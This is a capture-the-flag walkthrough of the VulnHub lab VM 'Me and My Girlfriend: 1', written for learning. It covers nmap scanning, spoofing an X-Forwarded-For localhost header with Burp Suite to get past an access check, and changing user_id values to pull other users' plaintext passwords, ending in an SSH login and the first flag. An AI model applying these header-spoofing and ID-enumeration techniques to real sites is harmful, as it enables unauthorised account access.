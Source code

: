 # Me and My Girlfriend: 1
* URL: https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/
* Date release: 13 Dec 2019
* Author: [TW1C3](https://www.vulnhub.com/author/tw1c3,664/)
* Series: [Me and My Girlfriend](https://www.vulnhub.com/series/me-and-my-girlfriend,267/)

This VM tells us that there are a couple of lovers namely Alice and Bob, where the couple was originally very romantic, but since Alice worked at a private company, "Ceban Corp", something has changed from Alice's attitude towards Bob like something is "hidden", And Bob asks for your help to get what Alice is hiding and get full access to the company!

* Difficulty Level: Beginner
* Notes: there are 2 flag files
* Learning: Web Application | Simple Privilege Escalation

# Footprinting
We need more information about the target by
starting with find out the ip address of the target by using Nmap

```console
nmap -F [ip address/mask]
```

The figure below shows the results:
<p align="center">
<img src="/meAndMyGf1/pic/target.png">
</p>

at this point, we can now use the web browser to access to target's web page. Follow by ***inspect element***. the result:

```html
Who are you? Hacker? Sorry This Site Can Only Be Accessed local!<!-- Maybe you can search how to use x-forwarded-for -->
```

As you can see, the creator of this CTF gave use a hint that we should use **x-forwarded-for** get the first flag

to find **more** information about the target

```console
nmap -A -sV -O [ip address] > meAndMyGf.txt
```
Where:
* -sV = Version scanning
* -A = Version scanning
* -O = OS detection

We also put the result from nmap in a file. This will help us to save some time since we do not need to run this command to get target's info again.

here is the result from runing the command above:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-31 13:24 EST
Nmap scan report for [ip address]
Host is up (0.00056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3b:26:4d:e4:a0:3b:f8:75:d9:6e:15:55:82:8c:71:97 (RSA)
|   256 8f:48:97:9b:55:11:5b:f1:6c:1d:b3:4a:bc:36:bd:b0 (ECDSA)
|_  256 d0:c3:02:a1:c4:c2:a8:ac:3b:84:ae:8f:e5:79:66:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:0D:53:C5 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms [ip address]

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.42 seconds
```

The last line of the nmap output shows that it took 20 sec to finish the scanning. WOW is a lot, good that we save the output in a file. I think I should increasse the ram of my kali vm.

# Action
Fire up Burp Suit and get ready for some web application hacking! The hint was use **x-forwarded-for** to access to webserver.

according to [this](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) and [this](https://www.keycdn.com/support/x-forwarded-for)
X-Forwarded-For or XFF header is a de-facto standard header for identifying the **originating IP address**  of a (src ip) client connecting to a web server (our target) through an HTTP proxy or a load balancer.Our goal is spoofing src ip address so the web server think we try to access from local. 

At this point you can now guess, WE have to combine XFF and localhost.
Now try to visite the website when the brup suit is on and try to intercept the get request. Then add
```
X-Forwarded-For: 127.0.0.1
```
The request should look something like this
```
GET /?page=index HTTP/1.1
Host: [ip address]
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=03gbe8fmpkvdr31vaf2io6co62
Connection: close
Upgrade-Insecure-Requests: 1
```
When the webserver get our request, it will assume that the request was send from 127.0.0.1 (localhost). It then response with a legit webpage that was blocked before.
WOOP WOOP! we are in !!!
<p align="center">
<img src="/meAndMyGf1/pic/home.png">
</p>

NOW time to play around and learn how the application works. I poked around, tried to check every link I could. The most anoying part is, I needed to put x-fowared-for in each reaquest (```X-Forwarded-For: 127.0.0.1```). I then created a accout call, user: ```test``` pass ```1234```.
```
POST /misc/process.php?act=login HTTP/1.1
Host: 192.168.58.129
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.58.129/index.php?page=login
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Connection: close
Cookie: PHPSESSID=trb9hv9p2mckesqb3n40i1ur75
Upgrade-Insecure-Requests: 1

username=test&password=1234&submit=
```
The request above is the request I sent to the webserver when I tried to login to the website with created credential. As you can see in the body, ```username=test&password=1234&submit=``` contain my credential. The website then redirected to another page after the authentication. The figure below shows the http reqest that redirect me to dashboard page.

```
GET /index.php?page=dashboard&user_id=13 HTTP/1.1
Host: 192.168.58.129
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.58.129/index.php?page=login
Connection: close
Cookie: PHPSESSID=trb9hv9p2mckesqb3n40i1ur75
Upgrade-Insecure-Requests: 1
```
By studying the first line of the previous reqest ```GET /index.php?page=dashboard&user_id=13 HTTP/1.1``` I learn that, the request try to get information from the dashboard page and also pass ```user_id=13```. I assume that user_id = 13 is me, which is the credential that I created. 

There is only 3 link on the narv bar, Dashboard, Profile and Logout. I then try to check the profile, the picture below shows the profile page.

<p align="center">
<img src="/meAndMyGf1/pic/profile.png">
</p>

As you can see, It seem like we can change the user's credential on this page. The problem is the CHANGE button is disable, we can't click it. I then use the **Inspect Elements** to examing the webpage, I might be able to manipulate the HTML and make the button click able again.
```<button disabled="disabled">Change</button>```, here is the Change button. To disable it, remove ```disabled="disabled"``` from it which give me ```<button>Change</button>```. The picture below shows the result.

<p align="center">
<img src="/meAndMyGf1/pic/button.png">
</p>

I changed Name, Username and password then press the change button. **IT DIDN'T WORK**. The credential still stay the same as before. **GOD DAMN IT!!**. I then check the HTML on the profile page again. **OMG HOW DID I MISSED IT?**

```html
<form action="#" method="POST">
<label for="name">Name</label>
<input type="text" name="name" id="name" value="test"><br>
<label for="username">Username</label>
<input type="text" name="username" id="username" value="test"><br>
<label for="password">Password</label>
<input type="password" name="password" id="password" value="1234"><br>
<button disabled="disabled">Change</button>
```

Oh, look what I missed, stupid me. The password is already in ```value="1234"```. So now I know how to get the password. The last step is try to get to Alic profile and get her password!! As I mentioned before, ```user_id=13``` seem like my credential since ```user_id=13``` popup every time I click something. So let try to change to ```user_id=X``` where X = INT and try to find ALICE's credential.

FINALLY!! I found her ! my target, ALICE (```user_id=5```). 
<p align="center">
<img src="/meAndMyGf1/pic/alice.png">
</p>

I then user Alice's credential to login to the company machine. **MASHALLAH ! I'M IN**
<p align="center">
<img src="/meAndMyGf1/pic/in.png">
</p>

To list all file in the directory run ```ls``` BUT there is nothing here. I then use ```ls -la``` or ```ls -a``` to list all file including the hidden file. OMG I FOUND IT, I FOUND HER SECRET!! Let me call BOB and keep him updated. The picture below shows the result. 
<p align="center">
<img src="/meAndMyGf1/pic/secret.png">
</p>

To move inside the ***.my_secret*** directory run ```cd .my_secret``` follow by ```ls``` again to list all file. **I FOUND THE FIRST FLAG!!!** inside ***.my_secret*** there is two files, ***flag1.txt*** ***my_notes.txt*** which contain some bad stuff about bob... I should let him know about this. To view the file's content, run ```cat [file's name]```. The figure below shows files content.
<p align="center">
<img src="/meAndMyGf1/pic/flag.png">
</p>
<p align="center">
<img src="/meAndMyGf1/pic/note.png">
</p>
